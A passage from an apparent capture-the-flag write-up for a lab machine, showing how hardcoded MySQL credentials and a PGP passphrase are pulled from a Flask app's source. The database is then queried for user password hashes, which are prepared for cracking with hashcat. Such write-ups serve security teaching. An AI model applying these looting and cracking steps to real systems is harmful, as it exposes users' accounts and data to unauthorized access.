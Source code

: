 We found the MySQL credential `atlas:GarlicAndOnionZ42`:

```bash
atlas@sandworm:/var/www/html/SSA/SSA$ cat __init__.py 
from flask import Flask
from flask_login import LoginManager
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy()

def create_app():
    app = Flask(__name__)

    app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21'
    app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'
```

We found the PGP key's passphrase `$M1DGu4rD$`:

{% code title="/var/www/html/SSA/SSA/app.py" %}
```python
...
@main.route("/contact", methods=('GET', 'POST',))
def contact():
    if request.method == 'GET':
        return render_template("contact.html", name="contact")
    tip = request.form['encrypted_text']
    if not validate(tip):
        return render_template("contact.html", error_msg="Message is not PGP-encrypted.")

    msg = gpg.decrypt(tip, passphrase='$M1DGu4rD$')
...
```
{% endcode %}

We can use Python package `sqlalchemy` to access the MySQL database `SSA`.

```python
import sqlalchemy

engine = sqlalchemy.create_engine('mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA')
conn = engine.connect()
conn.execute(sqlalchemy.text('SELECT * FROM users;'))
```

We can then obtain a list of usernames and password hashes.

{% code overflow="wrap" %}
```
[(1, 'Odin', 'pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f'), (2, 'silentobserver', 'pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d')]
```
{% endcode %}

By formatting the hashes above as, for example, `12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f:q0WZMG27Qb6XwVlZ`, we can try to use `hashcat` to crack the password with mode 1460.
